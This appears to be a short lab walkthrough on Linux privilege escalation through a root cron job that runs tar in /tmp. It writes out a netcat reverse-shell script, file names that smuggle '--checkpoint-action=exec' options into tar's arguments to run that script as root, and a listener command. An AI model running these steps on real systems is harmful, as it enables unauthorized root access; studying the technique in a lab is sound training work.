 # 2⃣ Cron Jobs

A cron job is scheduled by the root user to run multiple system maintenance tasks. A byproduct of this task is the creation of a tar file in /tmp. This cron job fires every few minutes.



***

### Find a file

```
find / -name 3
```

### Code to connect to local port 1234 using netcat

```
printf '#! /bin/bash\nnc -e /bin/bash 127.0.0.1 1234' > shell.sh
```

### Specially crafted files to trigger shell.sh from tar

```
touch -- '--checkpoint-action=exec=sh shell.sh'
touch -- '--checkpoint=1'
```

### Start a netcat listener

```
nc -nvlp 1234
```

